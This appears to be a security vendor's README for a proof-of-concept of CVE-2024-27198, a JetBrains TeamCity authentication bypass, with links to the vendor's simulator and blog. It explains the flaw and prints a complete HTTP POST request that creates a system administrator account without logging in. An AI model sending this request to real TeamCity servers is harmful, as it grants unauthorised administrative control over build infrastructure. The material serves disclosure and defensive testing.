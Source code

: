 # JetBrains TeamCity CVE-2024-27198 PoC Exploit
Recently, JetBrains disclosed a critical vulnerability affecting JetBrains TeamCity CI/CD server products.<br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2024-27198 vulnerability.

Test security controls against the CVE-2024-27198 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2024-27198 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information, check out our blog post: [CVE-2024-27198 and CVE-2024-27199: JetBrains TeamCity Authentication Bypass Vulnerabilities Explained](https://www.picussecurity.com/resource/blog/cve-2024-27198-cve-2024-27199)

CVE-2024-27198 Proof-of-concept (POC)
----------------------
CVE-2024-27198 vulnerability is caused by a CWE-288 weakness found in BaseController class of web-openapi.jar library. When an API endpoint receives a request appended with. jsp, the BaseController class allows the request to bypass authentication.<br>
The example HTTP POST request below exploits CVE-2024-27198 vulnerability to add a new administrator user. Note the ";.jsp" located after the API endpoint.

#### Example CVE-2024-27198 Exploit:
```http
POST /notexist?jsp=/app/rest/users;.jsp HTTP/1.1
Content-Type: application/json
Content-Length: 120

{"username": "test", "password": "test", "email": "test", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
